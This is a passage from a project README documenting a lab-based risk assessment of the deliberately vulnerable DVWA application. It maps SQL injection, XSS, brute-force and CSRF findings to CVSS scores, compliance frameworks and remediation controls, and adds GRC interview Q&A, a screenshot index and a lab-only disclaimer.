| **P3 — 30 days** | CSRF — No Token Validation | 6.5 | Account takeover via forged requests, unauthorised state changes | ISO 27001 A.8.26, NIST CSF PR.AC-4 | Anti-CSRF tokens, SameSite cookies, origin validation | 30 days |

### Hardening Principles — Control Recommendations

**Secure Development Lifecycle** — All four findings share a common root cause: insufficient security controls in the development process. Implementing a Secure SDLC with mandatory code review, static analysis (SAST), and pre-release security testing would have prevented all findings. Maps to ISO 27001 A.8.29 and NIST CSF PR.IP-2.

**Input Validation Policy** — All user-supplied input must be validated, sanitised, and encoded at every input/output boundary. Parameterised queries for all database interactions without exception. Maps to ISO 27001 A.8.28.

**Authentication Hardening** — Enforce rate limiting, account lockout, MFA for privileged accounts, and HTTPS-only credential transmission across all authentication endpoints. Maps to ISO 27001 A.8.5, A.5.17, and PCI DSS Requirement 8.

**Security Headers** — Deploy Content Security Policy, X-Frame-Options, X-Content-Type-Options, and HSTS headers on all application responses. Cookie security flags (HTTPOnly, Secure, SameSite=Strict) must be applied universally. Maps to NIST CSF PR.PT-3.

**Periodic Assessment Programme** — Web application security testing should be conducted on every significant release and at minimum annually. Findings must be tracked in the risk register with treatment owners and deadlines. Maps to ISO 27001 A.8.29 and PCI DSS Requirement 11.

---

## GRC Concepts Applied

| Concept | Application in This Project |
|---|---|
| Risk Assessment Lifecycle | Scoping → Testing → Finding → Scoring → Impact Analysis → Documentation |
| CVSS v3.0 Scoring | Applied to all 4 findings — average score 7.8 (High) |
| Risk Register | P1–P3 priority matrix with business impact and compliance mapping |
| Business Impact Analysis | Each finding assessed for operational, financial, and regulatory impact |
| ISO 27001 Annex A Mapping | Findings mapped to A.8.28, A.8.29, A.8.26, A.8.5, A.5.17 |
| NIST CSF Mapping | Findings mapped to PR.IP-2, PR.AC-4, PR.AC-7, ID.RA-1 |
| OWASP Top 10 Mapping | SQLi → A03, Brute Force → A07, XSS → A03, CSRF → A01 |
| MITRE ATT&CK Mapping | T1190, T1110, T1059.007, T1185 |
| Compliance Risk Identification | GDPR, PCI DSS, and ISO 27001 violations identified per finding |
| Audit Evidence Collection | Burp Suite HTTP traffic screenshots as audit artefacts |
| Secure SDLC Gap Analysis | Root cause traced to development process control failures |
| Regulatory Breach Assessment | XSS/SQLi findings assessed for GDPR notification obligation |

### Key Questions to Prepare From This Project

**Q: How does a web application assessment finding enter the risk register?**
Each finding becomes a risk entry with: asset (the application/endpoint), threat (injection, session attack), vulnerability (absent input validation, absent CSRF token), likelihood (CVSS EPSS or threat intelligence), impact (business impact analysis), inherent risk score, control recommendation, and residual risk after treatment. The P1–P3 matrix in this project is a simplified version of that register.

**Q: When does a web application vulnerability trigger a GDPR breach notification?**
When personal data is accessed, exfiltrated, altered, or destroyed as a result of the vulnerability. SQL Injection accessing a user table containing names and emails is a personal data breach under GDPR Article 4(12). The 72-hour notification clock to the supervisory authority (Article 33) starts from the moment the organisation becomes aware. XSS enabling session hijacking that leads to account access is similarly reportable.

**Q: What is the difference between a penetration test and a vulnerability assessment in GRC terms?**
A vulnerability assessment identifies and scores weaknesses — it produces a risk register input. A penetration test goes further by exploiting weaknesses to demonstrate confirmed impact — it produces evidence for risk treatment decisions and compliance requirements (PCI DSS Requirement 11.4 mandates both). This project is a vulnerability assessment with proof-of-concept exploitation for impact demonstration — not a full penetration test.

**Q: How would you communicate a SQL Injection finding to a non-technical executive?**
Avoid technical terminology entirely. Frame it as: "We identified a weakness in the application that would allow an external attacker to access the entire customer database — including names, email addresses, and passwords — without needing any credentials. This constitutes a data breach under GDPR and could result in fines of up to €20 million. We recommend an immediate fix, estimated at two to four developer hours to implement."

**Q: Why does OWASP Top 10 matter in a GRC context?**
It is the internationally recognised baseline for web application security requirements. Regulators, auditors, and clients reference it directly. ISO 27001 A.8.29 (Security testing) and PCI DSS Requirement 6.3 (Identify and address security vulnerabilities) both implicitly require OWASP Top 10 coverage as a minimum standard. Mapping findings to OWASP Top 10 makes the risk register immediately interpretable to any auditor.

---

## Screenshots Index

| # | Filename | Description |
|---|---|---|
| 01 | GRC2_01_kali_ip_address.png | Kali Linux IP — 10.83.80.7 |
| 02 | GRC2_02_apache_running.png | Apache2 service active |
| 03 | GRC2_03_mysql_running.png | MariaDB service active |
| 04 | GRC2_04_mysql_database_setup.png | DVWA database and user created |
| 05 | GRC2_05_dvwa_setup_page.png | DVWA setup page — database initialisation |
| 06 | GRC2_06_dvwa_login_page.png | DVWA login interface |
| 07 | GRC2_06_1_dvwa_home_logged_in.png | DVWA dashboard — authenticated |
| 08 | GRC2_07_burp_suite_launched.png | Burp Suite CE launched — dashboard ready |
| 09 | GRC2_08_firefox_proxy_config.png | Firefox proxy configured — 127.0.0.1:8080 |
| 10 | GRC2_09_burp_intercept_dvwa_request.png | Burp intercepting DVWA traffic |
| 11 | GRC2_10_dvwa_loaded_with_burp_proxy.png | DVWA loaded through Burp proxy |
| 12 | GRC2_11_dvwa_security_level_low.png | Security level set to Low |
| 13 | GRC2_12_sql_injection_normal_test.png | SQLi — normal query baseline |
| 14 | GRC2_13_sql_injection_exploit_success.png | SQLi — all 5 users extracted |
| 15 | GRC2_14_burp_sql_injection_request_analysis.png | SQLi — Burp HTTP traffic evidence |
| 16 | GRC2_15_xss_normal_test.png | XSS — normal input baseline |
| 17 | GRC2_16_xss_exploit_alert_popup.png | XSS — JavaScript executed |
| 18 | GRC2_17_burp_xss_request_analysis.png | XSS — Burp HTTP traffic evidence |
| 19 | GRC2_18_brute_force_successful_login.png | Brute Force — successful login baseline |
| 20 | GRC2_19_brute_force_failed_attempt.png | Brute Force — no lockout triggered |
| 21 | GRC2_20_burp_brute_force_analysis.png | Brute Force — credentials in GET URL |
| 22 | GRC2_21_csrf_password_change_success.png | CSRF — password changed without token |
| 23 | GRC2_22_burp_csrf_request_analysis.png | CSRF — no token in request |

---

## Repository Structure

```
GRC2-Web-Application-Risk-Assessment-OWASP/
│
├── README.md                              ← Complete assessment documentation
│
└── screenshots/                           ← 23 annotated evidence screenshots
    ├── GRC2_01_kali_ip_address.png
    ├── GRC2_02 through GRC2_22 ...
```
## GRC Formal Documentation (Audit Artifacts)

For a structured, business-aligned perspective on this assessment, refer to the formal documentation in the `/docs/` folder:

*   `01-Executive-Summary.md` - Non-technical overview for stakeholders.
*   `02-Scope-Methodology.md` - Formal terms of reference.
*   `03-Risk-Register.md` - Detailed risk prioritization and scoring.
*   `04-Remediation-Tracker.md` - Cost-benefit analysis and SDLC integration.
*   `05-Compliance-Gap-Analysis.md` - Mapped to ISO 27001, NIST CSF, PCI DSS, and GDPR.
*   `06-Asset-Business-Criticality.md` - Contextualizing the application's business function.
*   `07-MITRE-ATTACK-Mapping.md` - Mapping findings to adversary tactics and techniques.
---

## Disclaimer

> This assessment was conducted entirely in a **controlled, isolated VirtualBox lab environment** for educational purposes. DVWA is a deliberately vulnerable application created specifically for security training. It was deployed on a private VM with no internet exposure. No real-world systems, networks, production applications, or user data were involved. All activities were performed legally and ethically within a self-contained personal lab.

---

<div align="center">

*GRC2 · Burp Suite · DVWA · CVSS v3.0 · OWASP Top 10 · MITRE ATT&CK*

*Web Application Risk Assessment · Business Impact Analysis · ISO 27001 · NIST CSF · GDPR · PCI DSS*

</div>
